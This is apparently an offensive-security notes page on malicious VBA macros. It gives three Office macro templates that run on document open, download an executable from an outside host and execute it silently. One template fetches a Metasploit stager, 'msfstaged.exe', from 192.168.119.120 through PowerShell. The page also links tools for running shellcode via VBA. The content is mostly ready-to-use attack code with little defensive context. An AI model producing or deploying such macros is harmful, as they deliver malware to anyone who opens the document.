 # ⭕ VBA

{% embed url="https://github.com/S3cur3Th1sSh1t/OffensiveVBA" %}

visual basic for applications is a VB scripting language embedded in applications like MS Office (a macro) and other applications like autoCAD.

with MS Office the VBA code is embedded in a document like a word processor file or spreadsheet.

{% hint style="info" %}
VBA is more powerful than VBS because it can interface directly with the windows API. VBA programs are not restricted in their access to the operating system.
{% endhint %}

## <mark style="color:red;">VBA Macro</mark>

### <mark style="color:orange;">VBA Download & Execute</mark>

```
Sub AutoOpen()

Const ADTYPEBINARY = 1
Const ADSAVECREATEOVERWRITE = 2

Dim xHttp
Dim bStrm
Dim filename

Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "https://<DOMAIN>/<FILE>", False
xHttp.Send

Set gobjBinaryOutputStream = CreateObject("Adodb.Stream")

filename = "C:\Temp\" & DateDiff("s", #1/1/1970#, Now())

gobjBinaryOutputStream.Type = ADTYPEBINARY
gobjBinaryOutputStream.Open
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("M")
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("Z")
gobjBinaryOutputStream.write xHttp.responseBody
gobjBinaryOutputStream.savetofile filename, ADSAVECREATEOVERWRITE

SetAttr filename, vbReadOnly + vbHidden + vbSystem
Shell (filename)

End Sub
```

or

```
Sub AutoOpen()
    Auto_Open
End Sub

Sub Auto_Open()
    payloadURL = "<Download URL>"
    Dim req: Set req = CreateObject("Microsoft.XMLHTTP")
    Dim payloadStream: Set payloadStream = CreateObject("Adodb.Stream")
    req.Open "GET", payloadURL, False
    req.Send

    tmpDir = Environ("TEMP")
    exePath = tmpDir + "\trhen.exe"
    With payloadStream
        .Type = 1
        .Open
        .write req.ResponseBody
        .savetofile exePath, 2
    End With
    
    Set WshShell = CreateObject("WScript.Shell")
    cmds = WshShell.Run(exePath, 0, True)
    Set WshShell = Nothing
End Sub
```

#### <mark style="color:green;">Download and execute with powershell</mark>

```
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object
    System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe','msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
    DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

## <mark style="color:red;">Shellcode Execution via VBA</mark>

{% embed url="https://github.com/iilegacyyii/UsefulScripts/blob/master/ShellcodeToVBA.py" %}

{% embed url="https://github.com/ScriptIdiot/vba_bin_runner" %}

{% embed url="https://github.com/karttoon/trigen" %}
